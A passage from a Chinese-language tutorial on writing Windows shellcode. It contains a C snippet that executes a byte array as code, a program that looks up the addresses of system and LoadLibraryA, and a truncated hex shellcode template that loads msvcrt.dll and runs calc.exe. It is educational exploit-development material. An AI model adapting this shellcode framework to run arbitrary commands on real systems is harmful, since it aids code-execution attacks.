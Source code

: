 ```
{
	( (Func) &sh)();
		
	return 0;
}
```  
当然这种方式也很麻烦，所以可以先写好shellcode框架，通过搜索API地址的方法找到目标系统相关函数基地址，拿到基地址后直接修改shellcode模板就可以实现跨平台运行。下面是查找各个函数的地址，思路是先找到函数在那个dll下，然后通过以下方式查找：
```
#include <windows.h>
#include <stdio.h>

typedef void(*MYPROC)(LPTSTR);
int main()
{

	HINSTANCE LibHandle1, LibHandle2;
	MYPROC ProcAdd;
	MYPROC ProcLoad;
	MYPROC ProcExit;
	LibHandle1 = LoadLibrary("msvcrt.dll");
	LibHandle2 = LoadLibrary("Kernel32.dll");
	ProcAdd = (MYPROC)GetProcAddress(LibHandle1, "system");   system在msvcrt.dll下
	printf("system= 0x%x\n", ProcAdd);
	ProcLoad = (MYPROC)GetProcAddress(LibHandle2, "LoadLibraryA");
	printf("load= 0x%x\n", ProcLoad);
	ProcExit = (MYPROC)GetProcAddress(LibHandle2, "ExitProcess");  ExitProcess在Kernel32.dll下
	printf("exit= 0x%x\n", ProcExit);

	system("pause");
	return 0;
}

```  
弹计算器框架：  
```
unsigned char sh[]=
"\x8B\xE5" //MOV ESP, EBP
"\x55" //PUSH EBP
"\x8B\xEC" //mov ebp, esp
"\x33\xFF" //xor edi,edi
"\x57"//push edi
"\x83\xEC\x08" //sub esp,08h
"\xC6\x45\xF4\x6D"//mov byte ptr [ebp-0ch],'m'
"\xC6\x45\xF5\x73"//'s'
"\xC6\x45\xF6\x76"//'v'
"\xC6\x45\xF7\x63"//'c'
"\xC6\x45\xF8\x72"//'r'
"\xC6\x45\xF9\x74"//'t'
"\xC6\x45\xFA\x2E"//'.'
"\xC6\x45\xFB\x64"//'d'
"\xC6\x45\xFC\x6C"//'l'
"\xC6\x45\xFD\x6C"//'l'
"\x8D\x45\xF4" //lea eax, [ebp-0ch]
"\x50" //push eax
"\xB8\x7B\x1D\x80\x7C" //mov eax, 7C801D7Bh  loadlibraryA函数的地址
"\xFF\xD0" //call eax
"\x33\xDB" //xor ebx, ebx
"\x53" //push ebx
"\x68\x2E\x65\x78\x65" //push 'exe.'
"\x68\x63\x61\x6C\x63" //push 'clac'
"\x8B\xC4" //mov eax, esp
"\x50" //push eax
"\xB8\xC7\x93\xBF\x77" //mov eax, 77BF93C7h  system函数的地址
```